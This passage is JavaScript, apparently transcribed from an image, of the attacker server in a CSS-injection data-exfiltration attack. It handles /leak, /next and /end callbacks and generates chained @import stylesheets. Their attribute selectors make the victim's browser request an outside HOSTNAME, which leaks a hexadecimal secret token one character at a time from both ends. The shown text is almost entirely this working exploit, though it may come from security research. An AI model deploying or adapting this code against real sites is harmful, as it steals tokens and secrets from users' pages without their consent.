 ```javascript
case "/leak":
response.end();
// If response comes with a pre, then we leaked some preffix s(E)cret
if (req.query.pre && prefix !== req.query.pre) {
prefix = req.query.pre;

// If response comes with a post, then we leaked some suffix secre(T)
} else if (req.query.post && postfix !== req.query.post) {
postfix = req.query.post;
} else {
break;
}

// Always a pre and a post response must arrived before responding the "next" @import (which is waiting for response)
if (ready == 2) {
genResponse(pending.shift());
ready = 0;
} else {
ready++;
log('\tleak: waiting others...');
}
break;

// While waiting for a pre and a post, the next @import is waiting to be responded
// by a new generated payload with another "pre" and "post"
case "/next":
if (ready == 2) {
genResponse(respose);
ready = 0;
} else {
pending.push(response);
ready++;
log('\tquery: waiting others...');
}
break;

// Called when the secret is leaked
case "/end":
stop = true;
console.log('[+] END: %s', req.query.token);

default:
response.end();
}
}

const genResponse = (response) => {
// Verbose output to know what do we know
console.log('...pre-payoad: ' + prefix);
console.log('...post-payoad: ' + postfix);

// Payload generation, you have an example of what is generated below
let css = '@import url('+ HOSTNAME + '/next?' + Math.random() + ');\n' +
[0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'].map(e => ('input[value$="' + e + postfix + '"]{--e'+n+':url(' + HOSTNAME + '/leak?post=' + e + postfix + ')}')).join('') +
'div '.repeat(n) + 'input{background:var(--e'+n+')}' +
[0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'].map(e => ('input[value^="' + prefix + e + '"]{--s'+n+':url(' + HOSTNAME + '/leak?pre=' + prefix + e +')}')).join('') +
'div '.repeat(n) + 'input{border-image:var(--s'+n+')}' +
'input[value='+ prefix + postfix + ']{list-style:url(' + HOSTNAME + '/end?token=' + prefix + postfix + '&)};';

```